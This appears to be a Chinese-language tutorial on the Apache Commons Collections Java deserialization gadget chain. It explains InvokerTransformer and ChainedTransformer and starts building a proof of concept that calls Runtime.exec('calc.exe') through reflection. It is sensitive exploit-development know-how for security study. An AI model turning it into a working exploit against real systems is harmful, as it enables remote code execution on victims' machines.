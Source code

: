 #### InvokerTransformer

这个类以反射机制，可用来执行任意方法。也是我们构造的任意代码执行点。

```Java
public InvokerTransformer(String methodName, Class[] paramTypes, Object[] args) {
        this.iMethodName = methodName;   // 参数1：待执⾏的⽅法名
        this.iParamTypes = paramTypes;   // 参数2：参数的类型
        this.iArgs = args;               // 参数3：实际的参数值
    }

// 核心
public Object transform(Object input) {
        if (input == null) { return null;} 
    else { try {
             Class cls = input.getClass(); // ①
             Method method = cls.getMethod(this.iMethodName, this.iParamTypes);
             return method.invoke(input, this.iArgs); //通过反射来调用某方法
            } catch ...
```

① getClass( ) 获取运行对象的类

- 如果传入的是对象，返回的则是当前对象的类
- 如果传入的是类，一律返回java.lang.class

#### ChainedTransformer

遍历传入的数组，调用每一个数组中的transform方法。

a.b.c.d  将前⼀个回调返回的结果，作为后⼀个回调的参数传入。

```Java
 public ChainedTransformer(Transformer[] transformers) {
        this.iTransformers = transformers;
    }

    public Object transform(Object object) {
        for(int i = 0; i < this.iTransformers.length; ++i) {
            object = this.iTransformers[i].transform(object);
        }
        return object;
    }
```

### 重构POC

#### 构造

构造攻击代码，测试Demo以最终执行 Runtime.getRuntime().exec("calc.exe"); 为例

转换成反射机制如下：

```Java
Method f = Runtime.class.getMethod("getRuntime"); // ①
Runtime r = (Runtime) f.invoke(null,null);
r.exec("calc.exe");
```
